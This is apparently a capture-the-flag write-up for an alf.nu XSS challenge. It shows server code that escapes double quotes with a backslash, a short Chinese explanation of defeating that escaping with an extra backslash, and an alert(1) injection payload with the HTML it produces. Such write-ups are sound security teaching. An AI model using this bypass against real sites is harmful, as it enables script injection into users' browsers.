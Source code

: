 - server code

```js
// from alf.nu
function escape (s) {
  s = s.replace(/"/g, '\\"')
  return '<script>console.log("' + s + '");</script>'
}
```

- solution

正则匹配`"`，`"`替换成\"，在实际输出中可以在添一个`\`来转义掉第一个`\`绕过，`\"`->`\\"`->即为\"。

```html
//input code
\");alert(1);//
//html
<script>console.log("\\");alert(1);//");</script>
```